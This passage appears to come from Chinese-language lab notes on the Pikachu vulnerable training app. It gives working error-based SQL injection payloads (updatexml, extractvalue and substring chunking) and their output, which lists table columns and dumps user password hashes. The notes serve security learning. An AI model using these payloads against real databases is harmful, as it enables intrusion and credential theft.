 回显：XPATH syntax error: '~httpinfo,member,message,users,x'

查看表中column名：

```sql
'
1' and updatexml(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users')),0) or'
#
1' and extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users'))) or'
```

回显：XPATH syntax error: '~id,username,password,level'

获取用户名、密码：

```sql
'
1' and updatexml(1,concat('~',(select group_concat(username,'@',password) from pikachu.users)),0) or'
#
1' and extractvalue(1,concat('~',(select group_concat(username,'@',password) from pikachu.users))) or'
```

回显：XPATH syntax error: '~admin@e10adc3949ba59abbe56e057f'

==回显长度有限制，为32字符==

使用substring(str,start,length)函数，start从1开始

```sql
'
1' and updatexml(1,concat(0x7e,substring((select group_concat(username,'@',password)  from pikachu.users),1,30)),0) or'
'
#01-30#~admin@e10adc3949ba59abbe56e057
#31-60#~f20f883e,pikachu@670b14728ad99
#61-90#~02aecba32e22fa4f6bd,test@e99a1
#91-  #~8c428cb38d5f260853678922e03
```

==admin@e10adc3949ba59abbe56e057f20f883e,==

==pikachu@670b14728ad9902aecba32e22fa4f6bd,==

==test@e99a18c428cb38d5f260853678922e03==
#### "delete"注入

sql语句：

```sql
delete from message where id={$_GET['id']}
```

使用updatexml尝试显错注入
#### "http header"注入
